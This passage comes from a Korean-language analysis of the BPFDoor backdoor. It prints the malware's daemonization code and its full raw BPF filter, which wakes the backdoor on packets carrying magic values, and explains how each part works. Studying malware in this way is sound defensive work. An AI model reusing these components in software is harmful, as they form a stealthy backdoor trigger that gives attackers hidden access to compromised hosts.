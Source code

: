 
### 데몬화

```c
if (fork()) exit(0);
				init_signal();
				signal(SIGCHLD, sig_child);
				godpid = getpid();
...
signal(SIGCHLD,SIG_IGN);
setsid();
```

백그라운드에서 동작시키기 위해 `fork()`로 자식 프로세스를 생성한 후 세션 리더로 설정하여 데몬화를   

다만, systemd 등 시스템 서비스로 등록하는 부분은 없기에 재부팅 시 BPFDoor가 다시 재시작되지는 않는다  
<br>

---

## 패킷 통신

### BPF 필터

```c
struct sock_fprog filter;
struct sock_filter bpf_code[] = {
        { 0x28, 0, 0, 0x0000000c },
        { 0x15, 0, 27, 0x00000800 },
        { 0x30, 0, 0, 0x00000017 },
        { 0x15, 0, 5, 0x00000011 },
        { 0x28, 0, 0, 0x00000014 },
        { 0x45, 23, 0, 0x00001fff },
        { 0xb1, 0, 0, 0x0000000e },
        { 0x48, 0, 0, 0x00000016 },
        { 0x15, 19, 20, 0x00007255 },
        { 0x15, 0, 7, 0x00000001 },
        { 0x28, 0, 0, 0x00000014 },
        { 0x45, 17, 0, 0x00001fff },
        { 0xb1, 0, 0, 0x0000000e },
        { 0x48, 0, 0, 0x00000016 },
        { 0x15, 0, 14, 0x00007255 },
        { 0x50, 0, 0, 0x0000000e },
        { 0x15, 11, 12, 0x00000008 },
        { 0x15, 0, 11, 0x00000006 },
        { 0x28, 0, 0, 0x00000014 },
        { 0x45, 9, 0, 0x00001fff },
        { 0xb1, 0, 0, 0x0000000e },
        { 0x50, 0, 0, 0x0000001a },
        { 0x54, 0, 0, 0x000000f0 },
        { 0x74, 0, 0, 0x00000002 },
        { 0xc, 0, 0, 0x00000000 },
        { 0x7, 0, 0, 0x00000000 },
        { 0x48, 0, 0, 0x0000000e },
        { 0x15, 0, 1, 0x00005293 },
        { 0x6, 0, 0, 0x0000ffff },
        { 0x6, 0, 0, 0x00000000 },
};

filter.len = sizeof(bpf_code)/sizeof(bpf_code[0]);
filter.filter = bpf_code;
```
